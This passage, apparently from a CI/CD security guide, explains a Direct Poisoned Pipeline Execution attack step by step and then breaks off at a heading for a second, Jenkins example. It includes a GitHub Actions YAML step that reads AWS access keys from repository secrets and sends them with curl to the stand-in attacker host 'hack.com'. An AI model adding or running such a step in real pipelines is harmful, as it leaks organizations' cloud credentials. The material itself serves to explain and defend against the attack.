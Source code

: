 ![alt_text](assets/images/dppe.jpg)


In this scenario, a D-PPE attack would be carried out as follows:



1. An attacker creates a new remote branch in the repository, in which they update the pipeline configuration file with malicious commands intended to access AWS credentials scoped to the GitHub organization and then to send them to a remote server.

```YAML
name: PIPELINE
on: push
jobs:
 build:
   runs-on: ubuntu-latest
   steps:
     - env:
         ACCESS_KEY: ${{ secrets.AWS_ACCESS_KEY_ID }}
         SECRET_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}

       run: |
         curl -d creds="$(echo $ACCESS_KEY:$SECRET_KEY | base64 | base64)" hack.com

```



2. Once the update is pushed, this triggers a pipeline which fetches the code from the repository, including the malicious pipeline configuration file.
3. The pipeline runs based on the configuration file “poisoned” by the attacker. As per the attacker’s malicious commands, AWS credentials stored as repository secrets are loaded into memory.
4. The pipeline proceeds to execute the attacker’s commands which send the AWS credentials to a server controlled by the attacker.
5. The attacker is then able to use the stolen credentials to access the AWS production environment.

<span style="text-decoration:underline;">Example 2: Credential theft via Indirect-PPE (Jenkins)</span>
